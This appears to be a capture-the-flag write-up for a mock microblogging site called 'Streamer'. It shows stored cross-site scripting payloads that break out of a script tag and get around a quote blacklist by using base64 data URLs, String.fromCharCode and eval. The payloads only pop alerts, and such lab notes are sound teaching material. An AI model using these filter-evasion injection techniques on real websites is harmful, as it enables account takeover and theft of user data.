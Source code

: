 Level 6 notes (level06)
=======================

This level involves "Streamer", a cheap and quick not-quite-Twitter.

What's the vulnerability?
-------------------------

You can inject JavaScript into the Streams you publish.

What's the complication?
------------------------

' and " are blacklisted, and make up part of the user you're trying to hack's password.
There are two ways of getting around this: replace ' and " with other characters, or base64 encode everything (I opted for this).

This also means that either you use data URLs (base64 again!):

```html
</script><script src=data:application/javascript;base64,YWxlcnQoIllvdSd2ZSBiZWVuIFBXTkVEISIpOw==></script><script>//
```

Or you construct JavaScript with no quotes, like so:

```html
</script><script>
var stringWithoutQuotes = String.fromCharCode(72, 101, 108, 108, 111, 33);
// do stuff with stringWithoutQuotes
</script><script>//
```

Alternatively, you can use this method and eval your entire script:

```html
</script><script>
eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 80, 87, 78, 69, 68, 33, 34, 41, 59));
</script><script>//
```

Websites like http://jdstiles.com/java/cct.html are helpful in encoding your JavaScript.
